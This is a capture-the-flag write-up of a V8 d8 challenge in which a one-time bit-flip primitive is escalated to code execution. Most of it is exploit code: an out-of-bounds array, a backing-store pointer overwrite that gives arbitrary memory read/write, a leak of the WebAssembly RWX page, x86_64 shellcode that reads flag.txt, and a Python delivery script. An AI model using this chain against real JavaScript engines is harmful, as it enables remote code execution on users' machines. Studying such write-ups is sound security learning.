

# Ascent — Sieberrsec CTF 7.0 Write-up

## Challenge Description

> Go win the match on the floating island... idk can you tell I don't play Valorant   
> `nc chal.sieberr.live 21007` 

---

## 1. TL;DR

This challenge ships a custom `d8` binary with a single extra primitive:

```js
rowhammer(obj, offset, bit)
```

It can be used **once**, and it flips **one bit** at `obj + offset`.

The intended path is:

1. Use the one-bit flip to corrupt a `JSArray` length.
2. Turn a normal float array into an **OOB array**.
3. Use OOB access to corrupt an `ArrayBuffer` backing-store pointer.
4. Upgrade that into **arbitrary read/write**.
5. Leak the WebAssembly RWX page.
6. Write shellcode into that page.
7. Call the Wasm export and print the flag.

Recovered flag:

```text
sctf{looks_like_the_(row)hammer_has_found_a_nail_>:D_23f32a63ec793}
```

---

## Concept Map



---

## 2. What data/file we have and what is special

The provided archive contains:

- `d8` — the challenge binary
- `patch.diff` — the important part
- `server.py` — how our script is fed into `d8`
- `flag.txt` — local test flag
- `Dockerfile`, `REVISION`, `snapshot_blob.bin`, `icudtl.dat`, `args.gn`

A quick `unzip -l` shows the interesting files:

```text
84,016,179 bytes total
├── dist/d8
├── dist/patch.diff
├── dist/server.py
├── dist/flag.txt
└── other runtime files
```

### Why `server.py` matters

`server.py` tells us the remote protocol immediately:

```python
length = int(input("Script length: "))
assert length <= 15000

print("Enter script:", flush=1)
script_contents = sys.stdin.read(length)

with tempfile.NamedTemporaryFile(buffering=0) as f:
    f.write(script_contents.encode("utf-8"))
    res = subprocess.run(["./d8", f.name], timeout=10,
                         stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    print()
    print(res.stdout.decode().strip(), flush=1)
```

So the service is simple:

- send script length
- send JavaScript
- get the script output back
- hard limits: **15,000 bytes** and **10 seconds**

This strongly suggests the solve should be a compact `d8` exploit, not a giant framework.

### Why `patch.diff` matters

This is the core of the challenge. The patch adds a new global function:

```cpp
global_template->Set(isolate, "rowhammer",
                     FunctionTemplate::New(isolate, rowhammer));
```

The implementation is even more revealing:

```cpp
uint64_t addr = (obj->address()) + offset;
unsigned char *target = (unsigned char *)addr;
*target ^= (1 << (bit));
```

Constraints:

- only works on a **heap object**
- exactly **three arguments**
- bit must be in `[0, 7]`
- may be used **once only**

That means the challenge is really:

> Find the single most valuable bit to flip in a V8 heap object.

---

## 3. Problem Analysis (in details)

### 3.1 The primitive we actually get

We do **not** get arbitrary write.
We do **not** get arbitrary bit flip anywhere.
We get:

- choose a V8 heap object
- choose a byte offset from that object
- flip one bit in that byte
- use it once

That is a very constrained primitive, but V8 object headers are packed with high-value metadata:

- map pointers
- elements pointers
- length fields
- backing-store pointers indirectly reachable through adjacent objects

The cleanest route is usually:

- corrupt an array length or elements metadata
- gain OOB access
- pivot into full memory corruption

### 3.2 Why a float array is the natural target

We want an array with predictable in-memory content and easy numeric conversion.
A packed double array is ideal:

```js
let oob = [1.1, 2.2, 3.3];
```

If its `length` becomes huge, indexing past element `2` begins reading and writing nearby objects as raw `Float64` values.

That is the classic V8 exploit starting point.

### 3.3 The winning bit flip

The correct flip for the provided build is:

```js
rowhammer(oob, 14, 7);
```

Empirically, this changes the array length from:

```text
3  ->  4194307  (0x400003)
```

So a tiny 3-element array becomes a massive OOB array.

This offset is **build-specific**. The reason it works is that, in this V8 build, the tagged length field for that `JSArray` sits such that flipping bit 7 of byte 14 injects the high bit corresponding to `0x400000` while preserving the low `+3`.

The important exploitation fact is not the exact Smi encoding trivia; it is this:

> One bit in the array header upgrades a safe JS array into an OOB primitive.

### 3.4 Why we place an `ArrayBuffer` next to it

After the OOB array is created, we want a nearby object with a pointer we can weaponize.
This is why the solve script allocates:

```js
let oob = [1.1, 2.2, 3.3];
let keep = [{}, {}, {}, {}];
let ab = new ArrayBuffer(0x200);
let dv = new DataView(ab);
```

The goal is simple:

- `oob` becomes the corrupted float array
- `ab` gives us a mutable native pointer: `backing_store`
- `dv` gives us a byte-level read/write API once that pointer is redirected

In the provided build, the relevant OOB slots are:

```text
oob[34], oob[35]
```

Those two doubles overlap the `ArrayBuffer` backing-store pointer.

### 3.5 Turning OOB into arbitrary read/write

We use standard float/integer punning:

```js
let B = new ArrayBuffer(8);
let F = new Float64Array(B);
let U = new BigUint64Array(B);

function ftoi(x){ F[0] = x; return U[0]; }
function itof(x){ U[0] = x; return F[0]; }
```

Then reconstruct the original backing-store pointer:

```js
let abp = ((ftoi(oob[35]) & 0xffffffffn) << 32n) |
          (ftoi(oob[34]) >> 32n);
```

For this build, the high half of slot `35` contains metadata we want to preserve, so the exploit keeps it and only swaps in a new target address:

```js
let meta = ftoi(oob[35]) & 0xffffffff00000000n;
function setp(p) {
  oob[34] = itof((p & 0xffffffffn) << 32n);
  oob[35] = itof(meta | (p >> 32n));
}
```

Now `DataView` becomes arbitrary memory access:

```js
function r64(a){ setp(a); return dv.getBigUint64(0, true); }
function w64(a,v){ setp(a); dv.setBigUint64(0, v, true); }
function w8(a,v){ setp(a); dv.setUint8(0, v); }
```

This is the decisive pivot:

> Corrupt one pointer once, then reuse `DataView` as a stable memory R/W primitive.

### 3.6 Why WebAssembly is used

In modern V8 challenges, WebAssembly is often the easiest path to native execution because it gives us executable code-related memory.

The solver creates a tiny Wasm function:

```js
let wc = new Uint8Array([...]);
let wm = new WebAssembly.Module(wc);
let wi = new WebAssembly.Instance(wm);
let wf = wi.exports.foo;
```

Once arbitrary read is available, we walk from known internal pointers to a native structure chain and leak the RWX page used by the Wasm code.

For this build, the offsets used by the solve are:

```js
let nm  = (abp & 0xffff00000000n) + 0x10400n;
let cm  = r64(nm + 0xc0n);
let rwx = r64(cm + 8n);
```

Again, these offsets are **specific to the provided binary**. They are not universal V8 constants.

The exploitation logic is:

1. derive a stable native-module-related base
2. follow internal pointers
3. land on the executable page used by Wasm

At that point, arbitrary write becomes code execution.

---

## 4. Exploitation Walkthrough / Flag Recovery

### Step 1: Build the heap layout

We prepare the objects in the order we want:

```js
let oob = [1.1, 2.2, 3.3];
let keep = [{}, {}, {}, {}];
let ab = new ArrayBuffer(0x200);
let dv = new DataView(ab);
```

And create a Wasm function that we will later hijack for execution:

```js
let wc = new Uint8Array([
  0,97,115,109,1,0,0,0,1,5,1,96,0,1,127,3,2,1,0,
  7,7,1,3,102,111,111,0,0,10,6,1,4,0,65,42,11
]);
let wm = new WebAssembly.Module(wc);
let wi = new WebAssembly.Instance(wm);
let wf = wi.exports.foo;
```

### Step 2: Consume the one allowed bit flip

This is the entire “rowhammer” move:

```js
rowhammer(oob, 14, 7);
```

After this, `oob` becomes OOB-capable.

### Step 3: Reinterpret nearby memory as doubles

Using `oob[34]` and `oob[35]`, we recover and later replace the `ArrayBuffer` backing-store pointer.

Core idea:

```js
let abp = ((ftoi(oob[35]) & 0xffffffffn) << 32n) |
          (ftoi(oob[34]) >> 32n);
```

Then we redirect the `ArrayBuffer` to any address we want and use `DataView` to read/write there.

### Step 4: Leak the Wasm RWX page

The solve uses the following pointer walk:

```js
let nm  = (abp & 0xffff00000000n) + 0x10400n;
let cm  = r64(nm + 0xc0n);
let rwx = r64(cm + 8n);
```

Once `rwx` is known, we have an executable memory destination.

### Step 5: Write shellcode

The Python solver embeds JavaScript, and the JavaScript writes x86_64 shellcode as packed qwords/bytes.

The shellcode opens `flag.txt`, reads it, and writes it to stdout.

Shellcode bytes:

```asm
xor edx, edx
push rdx
mov rax, 0x7478742e67616c66   ; "flag.txt"
push rax
mov rdi, rsp
xor esi, esi
push 2
pop rax
syscall                       ; open("flag.txt", O_RDONLY)

xchg edi, eax
sub rsp, 0x7f
mov rsi, rsp
mov dl, 0x7f
xor eax, eax
syscall                       ; read(fd, rsp, 0x7f)

mov edx, eax
push 1
pop rdi
push 1
pop rax
syscall                       ; write(1, rsp, n)

add rsp, 0x7f
add rsp, 0x10
ret
```

In the exploit, it is written with:

```js
for (let c of chunks) {
  if (c[2] == 8) {
    w64(rwx + BigInt(c[0]), c[1]);
  } else {
    let v = c[1];
    for (let j = 0; j < c[2]; j++) {
      w8(rwx + BigInt(c[0] + j), Number((v >> (8n * BigInt(j))) & 255n));
    }
  }
}
```

### Step 6: Jump into the shellcode

Finally:

```js
wf();
```

That transfers execution through the Wasm code path and prints the flag.

### Step 7: Remote delivery from Python

The full solve is a single Python file that:

1. embeds the JS payload as a raw string
2. connects to `chal.sieberr.live:21007`
3. sends length + script
4. extracts `sctf{...}` from the response

That is enough to solve the challenge in one shot.

### Final result

Running the one-file solver returned:

```text
sctf{looks_like_the_(row)hammer_has_found_a_nail_>:D_23f32a63ec793}
```

---

## 5. What We Learned

### 5.1 A one-bit flip can be enough

This challenge is a great reminder that “only one bit” is still extremely dangerous when the target is a language runtime object header.

Corrupting a single metadata bit was enough to go from:

- safe JavaScript values
- to OOB array access
- to arbitrary native memory R/W
- to code execution

### 5.2 Patch diffs often reveal the intended route

`patch.diff` was the roadmap.
Once we saw that the challenge author added a one-time bit-flip primitive to `d8`, the search space shrank dramatically.

### 5.3 OOB -> backing store -> DataView is still a powerful pattern

This is one of the most reusable V8 exploitation patterns:

- get OOB on an array
- overlap an `ArrayBuffer`
- redirect its backing store
- let `DataView` do the byte-level work

### 5.4 Exploit offsets are often binary-specific

The exact values here, such as:

- `rowhammer(oob, 14, 7)`
- `oob[34]`, `oob[35]`
- `+0x10400`, `+0xc0`, `+0x8`

are not portable facts about “V8 in general”. They are facts about **this build**.

### 5.5 Keep the payload compact

The server enforced:

- 15 KB script limit
- 10 second runtime limit

So the exploit had to be short, deterministic, and avoid unnecessary helpers.

---

## Solver note

The final working solver was a **single Python file** with embedded JavaScript. That is a nice format for remote `d8` challenges because:

- transport logic stays in Python
- the actual exploit stays in JavaScript
- the whole thing is easy to rerun locally and remotely

---

## Appendix: Minimal exploit skeleton

```python
#!/usr/bin/env python3
import re
import socket

HOST = "chal.sieberr.live"
PORT = 21007

JS = r'''/* embedded exploit JS */'''

with socket.create_connection((HOST, PORT), timeout=10.0) as s:
    s.recv(4096)
    s.sendall(str(len(JS.encode())).encode() + b"\n")
    s.recv(4096)
    s.sendall(JS.encode())
    s.shutdown(socket.SHUT_WR)
    out = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk

m = re.search(rb'sctf\{[^}\n\r]+\}', out)
if m:
    print(m.group(0).decode())
```

---

## Closing

This was a very nice “small primitive, big consequence” challenge. The custom `rowhammer()` function looked narrow, but the moment it touched the right `JSArray` header bit, the rest of the exploit chain opened up cleanly.
